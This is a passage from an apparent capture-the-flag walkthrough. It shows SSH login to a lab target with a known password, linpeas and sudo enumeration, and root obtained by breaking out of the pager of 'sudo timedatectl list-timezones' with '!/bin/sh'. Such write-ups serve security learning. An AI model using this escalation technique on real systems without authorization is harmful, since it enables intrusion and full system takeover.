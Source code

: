 4. Initiation: so now we can just run ssh with broken user with password of "broken" also, then we login as regolare user to the target, so we just need to enumerate it for run privilege escalation, then we finish that target.
```
└─$ ssh broken@192.168.166.24 -p 22
broken@192.168.166.24's password:
Permission denied, please try again.
broken@192.168.166.24's password:
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
 * Documentation:  https://help.ubuntu.com/
787 packages can be updated.
491 updates are security updates.
broken@ubuntu:~$
```

5. System Enumeration: so we now on the final step before going to be root, or I just hope so. We enumerate the target with `linpeas` and we found several stuff, the first is the version of the linux, which are `ubuntu 4.4.0-21-generic`, so if we going on that path we need to run exploit suggester or just search on google appropriate exploit for that version. But also we can found that the broken user can run two binaries without password.
```
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
broken@ubuntu:~$
```
Searching `timedatectl` on `gtfobins` we can find that we can use it to gain access as root.

6. Privilege Escalation: so now we just need to run `timedatectl` with `sudo` with argument about listing the timezone, then we can run `/bin/sh` directly.
```
broken@ubuntu:~$ sudo timedatectl list-timezones
Africa/Abidjan
Africa/Accra
Africa/Addis_Ababa
Africa/Algiers
Africa/Asmara
Africa/Bamako
Africa/Bangui
Africa/Banjul
Africa/Bissau
Africa/Blantyre
Africa/Brazzaville
Africa/Bujumbura
Africa/Cairo
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
